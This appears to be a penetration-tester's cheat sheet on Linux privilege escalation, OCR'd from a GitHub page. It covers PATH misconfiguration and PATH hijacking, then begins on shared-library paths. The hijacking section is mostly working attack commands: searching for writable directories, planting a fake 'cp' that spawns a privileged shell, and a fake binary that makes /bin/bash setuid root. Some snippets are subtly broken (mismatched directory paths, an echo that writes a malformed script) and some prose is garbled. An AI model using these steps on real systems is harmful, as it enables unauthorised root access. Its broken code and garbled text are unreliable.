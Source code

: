
## Path misconfiguration

Adding a . to a user's PATH adds their current working directory to the PATH list. 
```bash
. # if you do not have to write ./bin
# You will be able to execute any script or binary that is in the current directory
./. # is how it should be configured

$PATH # It you can write inside some directory the $PATH create a backdoor there that is name of a command by escalation target

PATH=.:${PATH}
export PATH
```

Usually `$PATH` should be order similar to: `/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin`

#### Path injection

Can we inject our abusive path into the `$PATH` before legitimate application is called?
```bash
echo $PATH 
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

Make file identical to command, containing 'bash -p', `chmod`-ing, export PATH and then run vulnerable file.
```bash
mkdir badapple; echo 'bash -p' > badapple/cp
chmod +x badapple/cp
export PATH="/dev/shm/badapple/:$PATH"
./runvulnbin
# If sudo is involved
```

[xct](https://github.com/xct) very simple, effective and easy to clean up  `+s` to `/bin/bash`
```bash
echo "#!/bin/bash\nchmod u+s /bin/bash" > $fakebinary
chmod u+x $fakebinary
PATH=`pwd`:$PATH ./vulnerble
```
## Shared Libraries

Two types of libraries exist in Linux: `
- static libraries - *cannot be modified*:  (denoted by the `.a` file extension)
- dynamically linked shared object libraries  - *can be modified*:  (denoted by the `.so` file extension).
These library locations are specified by compiler, package manager, package maintainer:
- `-rpath` or `-rpath-link` flags at compilation
- environment variables
	- `LD_RUN_PATH` 
	- `LD_LIBRARY_PATH` 
	